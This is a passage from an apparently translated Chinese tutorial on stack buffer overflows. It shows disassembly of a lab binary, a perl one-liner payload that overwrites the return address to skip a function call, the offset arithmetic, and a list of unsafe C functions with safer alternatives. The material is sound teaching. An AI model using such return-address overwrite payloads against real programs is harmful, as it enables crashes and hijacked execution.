 ```shell
rezos@dojo-labs ~/owasp/buffer_overflow $ objdump -d ./example02

080483be <main>:
80483be:       8d 4c 24 04             lea    0x4(%esp),%ecx
80483c2:       83 e4 f0                and    $0xfffffff0,%esp
80483c5:       ff 71 fc                pushl  0xfffffffc(%ecx)
80483c8:       55                      push   %ebp
80483c9:       89 e5                   mov    %esp,%ebp
80483cb:       51                      push   %ecx
80483cc:       83 ec 04                sub    $0x4,%esp
80483cf:       c7 04 24 bc 84 04 08    movl   $0x80484bc,(%esp)
80483d6:       e8 f5 fe ff ff          call   80482d0 <puts@plt>
80483db:       e8 c0 ff ff ff          call   80483a0 <doit>
80483e0:       c7 04 24 cd 84 04 08    movl   $0x80484cd,(%esp)
80483e7:       e8 e4 fe ff ff          call   80482d0 <puts@plt>
80483ec:       b8 00 00 00 00          mov    $0x0,%eax
80483f1:       83 c4 04                add    $0x4,%esp
80483f4:       59                      pop    %ecx
80483f5:       5d                      pop    %ebp
80483f6:       8d 61 fc                lea    0xfffffffc(%ecx),%esp
80483f9:       c3                      ret
80483fa:       90                      nop
80483fb:       90                      nop
```

- 如果第二次调用`printf（）`将通知管理员关于用户注销（例如，关闭会话），那么我们可以尝试省略此步骤并在不调用`printf（）`的情况下完成。

```shell
rezos@dojo-labs ~/owasp/buffer_overflow $ perl -e 'print "A"x12
."\xf9\x83\x04\x08"' | ./example02
So... The End...
AAAAAAAAAAAAu*.
Segmentation fault
```
程序在引发段错误后退出，但第二个`printf（）`调用没有实现
- 一些解释
  `perl -e 'print "A"x12 ."\xf9\x83\x04\x08"`将会输出12个"A"，然后输出四个字符，表示一个我们要执行的指令的地址。为什么是12？

```shell
8 // 缓冲区大小(char buf[8])
+  4 // 四个附加字节用于覆盖堆栈帧指针
----
12
```
- 程序分析
  该问题与示例一类似。没有对复制入缓冲区数据的大小进行控制。在这个示例中我们覆写EIP寄存器的值为地址0x080483f9，这实际上是在程序执行的最后阶段，调用ret。

- 怎样用不同的方式利用缓冲区溢出攻击？
  一般来说，利用这些错误可以用来
  - 应用程序Dos
  - 重新排序函数的执行
  - 代码执行 (注入shellcode)

- 缓冲区溢出错误的成因
  这些类型的错误很容易引发。这些年来该错误是程序员的梦魇。这个问题隐藏在C的本地函数内，不进行缓冲区长度的检查。下面是这些函数和安全的替换项
```C
gets() -> fgets() - 读取字符
strcpy() -> strncpy() - 复制缓冲区内容
strcat() -> strncat() - 缓冲区拼接
sprintf() -> snprintf() - 用不同类型的数据填充缓冲区
(f)scanf() - 从标准输入读取
getwd() - 返回工作目录
realpath() - 返回真实路径
```
